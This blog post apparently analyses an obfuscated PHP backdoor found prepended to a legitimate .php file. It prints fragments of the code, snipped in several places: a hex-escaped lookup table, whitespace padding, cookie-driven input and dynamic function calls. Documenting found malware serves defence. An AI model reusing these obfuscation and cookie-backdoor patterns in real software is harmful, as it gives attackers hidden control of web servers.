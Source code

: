 ```yaml
---
layout: default
title: Obfuscated PHP Backdoor script analysis 2
date: 2018-08-09
categories: 
    - "php"
    - "obfuscation"
---
```


Embedded backdoor found prepended onto an existing valid .php file.

The script is rather large, so I have cut out some of the string
concatenation parts.

Check pastebin link for full source \[link\]
```php
<?php                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 $gb2407 = 578;$GLOBALS['rb22c05fb'] = Array();global $rb22c05fb;$rb22c05fb = $GLOBALS;${"\x47\x4c\x4fB\x41\x4c\x53"}['f884b'] = "\x6e\x25\x6f\x3a\x7a\x34\x4a\x27\x62\x38\x47\x3f\x6d\x45\x73\x37\x2f\x3c\x52\x28\x71\x66\x69\x2d\x50\x75\x53\xa\x78\x77\x68\x2b\x9\x5d\x51\x6b\x3e\x2e\x5a\x67\x49\x7c\x60\x61\x5b\x7b\x46\x4c\x22\x4f\x42\x26\x31\x58\x4d\x44\x6c\x7d\x63\x59\x23\x5c\x29\x32\x7e\xd\x40\x3d\x5e\x76\x30\x5f\x33\x21\x4b\x4e\x56\x6a\x65\x74\x43\x57\x79\x35\x41\x39\x2a\x24\x64\x55\x72\x3b\x20\x2c\x36\x48\x54\x70";$rb22c05fb[$rb22c05fb['f884b'][69].$rb22c05fb['f884b'][78].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][9].$rb22c05fb['f884b'][88].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][5].$rb22c05fb['f884b'][72].$rb22c05fb['f884b'][63]] = $rb22c05fb['f884b'][58].$rb22c05fb['f884b'][30].$rb22c05fb['f884b'][90];$rb22c05fb[$rb22c05fb['f884b'][12].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][63].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][9]] = $rb22c05fb['f884b'][2].$rb22c05fb['f884b'][90].$rb22c05fb['f884b'][88];$rb22c05fb[$rb22c05fb['f884b'][20].$rb22c05fb['f884b'][5].$rb22c05fb['f884b'][94].$rb22c05fb['f884b'][88].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][21].$rb22c05fb['f884b'][52]] = $rb22c05fb['f884b'][14].$rb22c05fb['f884b'][79].$rb22c05fb['f884b'][90].$rb22c05fb['f884b'][56].$rb22c05fb['f884b'][78].$rb22c05fb['f884b'][0];$rb22c05fb[$rb22c05fb['f884b'][21].$rb22c05fb['f884b'][8].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][9]] = 
-------------------- -------------------- SNIP -------------------- -------------------- 
84b'][9].$rb22c05fb['f884b'][21]] = $_COOKIE;@$rb22c05fb[$rb22c05fb['f884b'][21].$rb22c05fb['f884b'][8].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][9]]($rb22c05fb['f884b'][78].$rb22c05fb['
-------------------- -------------------- SNIP -------------------- -------------------- 
'][43].$rb22c05fb['f884b'][78].$rb22c05fb['f884b'][21];global $x864b367c;function  r6971a($e76477, $qead07){global $rb22c05fb;$e112aa2d = "";for ($n28c=0; 
-------------------- -------------------- SNIP -------------------- -------------------- 
b'][21].$rb22c05fb['f884b'][52]]($e76477);){for ($o70350cf=0; 
-------------------- -------------------- SNIP -------------------- -------------------- 
$qead07){global $rb22c05fb;global $x864b367c;return 
-------------------- -------------------- SNIP -------------------- -------------------- 
3]]($e76477, $x864b367c), $qead07);}foreach ($rb22c05fb[$rb22c05fb['f884b'][56].$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][58].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][72].$rb22c05fb['f884b'][72].$rb22c05fb['f884b'][9].$rb22c05fb['f884b'][21]] as $qead07=>$l0c59b){$e76477 = $l0c59b;$k93f152 = $qead07;}if (!$e76477){foreach
-------------------- -------------------- SNIP -------------------- -------------------- 
['f884b'][63].$rb22c05fb['f884b'][58].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][5]]($e76477), $k93f152));if (isset($e76477[$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][35]]) && $x864b367c==$e76477[$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][35]]){if ($e76477[$rb22c05fb['f884b'][43]] == $rb22c05fb['f884b'][22]){$n28c = Array($rb22c05fb['f884b'][97].$rb22c05fb['f884b'][69] => @$rb22c05fb[$rb22c05fb['f884b'][12].$rb22c05fb['f884b'][63].$rb22c05fb['f884b'][9].$rb22c05fb['f884b
```